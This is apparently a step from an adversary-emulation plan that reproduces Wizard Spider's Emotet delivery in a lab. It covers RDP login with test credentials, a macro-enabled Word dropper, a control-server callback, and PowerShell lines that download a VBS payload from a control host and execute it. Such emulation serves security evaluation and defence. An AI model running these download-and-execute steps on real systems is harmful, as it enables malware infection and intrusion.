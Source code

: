 Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```bash
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```
[Source Code - Dropper Word Document](https://github.com/attackevals/wizard_spider/tree/main/Resources/Emotet_Dropper)

[Source Code - Emotet DLL](https://github.com/attackevals/wizard_spider/tree/main/Resources/Emotet)


<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```pwsh
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```pwsh
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf

* https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor

* https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html

* https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/

* https://blog.talosintelligence.com/2019/01/return-of-emotet.html

## Step 2 - Emotet Persistence
